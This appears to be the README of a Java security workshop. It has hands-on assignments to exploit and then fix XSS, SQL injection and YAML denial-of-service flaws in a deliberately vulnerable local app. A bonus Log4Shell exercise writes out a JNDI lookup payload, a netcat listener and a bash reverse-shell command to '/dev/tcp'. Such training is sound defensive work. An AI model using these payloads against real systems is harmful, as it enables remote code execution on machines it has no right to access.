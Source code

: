 # DevNexus Security Workshop 2022

## Setting up
Clone the repository

```
git clone https://github.com/bmvermeer/java-security-code-workshop.git 
```

Now you have **2 options** to build and run the application

- Build and run using docker

    ```
    docker-compose up --build
    ```
- Run on your local machine if Java 8 and Maven are installed
    ```
    mvn clean package
    mvn spring-boot:run
    ```
Go to http://localhost:8081/ to see the application

### Login
Username: admin
Password: foobar

## Assignment 1
### Cross-site scripting

You can click on the username on the search page to show you more details.
This page is vulnerable to a cross-site scripting attack.
![DirectLink1](image/directlink.png)
![DirectLink2](image/directlink2.png)

### 1a Try to create an alert loading the page
- [Hint 1](hints/sqli/hint1.md)
- [Hint 2](hints/sqli/hint2.md)

### 1b Try to display the token of a user that is on the page

- [Hint 3](hints/adduser/hint3.md)
- [Hint 4](hints/adduser/hint4.md)

### 1c Fix by sanitizing the input

- [Hint 5](hints/adduser/hint5.md)
- [Hint 6](hints/adduser/hint6.md)
- [Hint 7](hints/adduser/hint7.md)



## Assignment 2
### SQL injection

On the Search page, you can search the users by **username**.
By using a `%` you can provide wildcards. For instance, `Super%` will give you the result for **Superman**
Using the search term `%man`

![Search](image/search.png)

### 2a Try to create a search phrase that searches for the **firstname** 'Bruce'

- [Hint 1](hints/sqli/hint1.md)
- [Hint 2](hints/sqli/hint2.md)

### 2b Try to override every **lastname** with 'EVIL'
- [Hint 3](hints/sqli/hint3.md)
- [Hint 4](hints/sqli/hint4.md)

### 2c Fix the vulnerability
- [Hint 5](hints/sqli/hint5.md)
- [Hint 6](hints/sqli/hint6.md)
- [Hint 7](hints/sqli/hint7.md)

## Assignment 3
### Denial of Service

Click on `import` to import new users using a YAML file.
![import](image/import.png)
![yaml](image/yaml.png)

### 3a Upload 2 new users using a YAML file similar to this
```yaml
user:
  -
    firstname: Matt
    lastname: Murdock
    username: Daredevil
    password: BlindFighter
    comment: "Lives in Hell's Kitchen NYC and is blind."
  -
    firstname: Dick
    lastname: Grayson
    username: Robin
    password: boyWonder
    comment: "The junior counterpart of Batman"
```

### 3b Try to cause a java.lang.OutOfMemoryError Exception
- [Hint 1](hints/dos/hint1.md)
- [Hint 2](hints/dos/hint2.md)
- [Hint 3](hints/dos/hint3.md)

### 3c Fix the vulnerability
- [Hint 4](hints/dos/hint4.md)
- [Hint 5](hints/dos/hint5.md)
- [Hint 6](hints/dos/hint6.md)



## Assignment 4 (Bonus assignment)
### Log4j

For this exercise, you need `netcat` installed on your local machine.
Also, you MUST run this application from a Docker container.

This application uses a vulnerable version of log4j. We can use this to access a serialization gadget chain available in the classpath to execute commands.

### 4a go to the login screen and submit a wrong username / password combination
You will notice that in the logs, an error statement is logged containing the username.

### 4b startup the evil LDAP server
From the root of the project, do the following:

```
cd exploits/log4shell-server/
mvn clean package 
mvn exec:java
```

### 4c Launch netcat
In a new terminal window launch Netcat listening to port 9001
```
ncat -lvp 9001
```

### 4d launch the attack
The exploit server will create a serialized java payload containing a gadget chain from the outdated Apache `commons-collections` library.
This payload will try to execute following statement to create a reversed shell: `"$@| bash -i >& /dev/tcp/host.docker.internal/9001 0>&1"`

From your Docker container, connect to the LDAP server on your local machine

Use below as the username with any given password 
```
${jndi:ldap://host.docker.internal:9999/Commons}
```



If everything works out, you just executed a reverse shell command to port 9001.
Because your Netcat is listening to this, you now have shell access to that machine. The terminal you started Netcat in should now look similar to this.

![ncat](image/ncat.png)

Play around as you now have remote access to this machine by leveraging a remote code execution.







